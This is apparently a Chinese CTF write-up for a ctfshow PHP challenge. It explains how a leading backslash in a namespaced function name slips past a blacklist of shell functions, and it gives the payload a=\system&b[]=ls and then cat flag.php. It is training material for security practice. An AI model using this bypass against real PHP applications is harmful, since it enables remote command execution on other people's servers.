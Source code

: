 在php当中默认命名空间是\，所有原生函数和类都在这个命名空间中。普通调用一个函数，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路径；而如果写\function_name()这样调用函数，则其实是写了一个绝对路径。如果你在其他namespace里调用系统类，就必须写绝对路径这种写法

传入参数a与b，如果a不在黑名单当中，那么则会调用forward_static_call_array函数

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$a = $_GET['a'];
$b = $_GET['b'];
function CTFSHOW_36_D($a,$b){
    $dis = array("var_dump","exec","readfile","highlight_file","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents","");
    $a = strtolower($a);
    if (!in_array($a,$dis,true)) {
        forward_static_call_array($a,$b);
    }else{
        echo 'hacker';
    }
}
CTFSHOW_36_D($a,$b);
echo "rlezphp!!!"; 
```

forward_static_call_array — Call a static method and pass the arguments as array，也就是可以调用静态方法并且将数组作为参数
payload: a=\system&b[]=ls

![image-20240202184244279](assets/img/2024/1/image-20240202184244279.png)

之后a=\system&b[]=cat flag.php

------



## 新年好?

------
